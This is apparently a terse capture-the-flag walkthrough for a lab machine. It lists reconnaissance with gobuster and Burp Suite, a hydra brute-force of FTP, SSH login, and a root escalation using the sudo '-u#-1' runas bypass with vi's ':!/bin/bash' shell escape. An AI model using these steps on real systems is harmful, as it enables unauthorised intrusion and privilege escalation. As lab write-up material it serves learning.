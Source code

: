 * ports 
* gobuster 
* 
        /assets
        
        http://10.10.123.210/sup3r_s3cret_fl4g/   
* video 
* 
      burpsuite
      
        got a file link containing a image .
        the image strings gave one ftp username and many passwords.
        
* ftp 
* 
     getting into ftp using hydra
     
     got eli's ssh credentials
     
* ssh

      read promt now,
      
      `find / 2>/dev/null | grep s3r3t`
      
      pass for user gwendoline
      
      su gwendoline
      
      resd user.txt in gwendoline folder
      
      sudo -l (eli was not in sudoers litst but gwendoline was!)
      
           (ALL, !root) NOPASSWD: /usr/bin/vi
           
           google it (https://cheatography.com/blacklist/cheat-sheets/linux-windows-privilege-escalation/)
           
           `sudo -u#-1 /usr/bin/vi` (vi opens with root)
           
           now type `:!/bin/bash` to get the shell as root 
           
           `cat /root/root.txt`
                  
 
The related files can be found here https://drive.google.com/drive/folders/1kFohHNG1zW6wgnKjhixgZf4EXDHxiLMi?usp=sharing
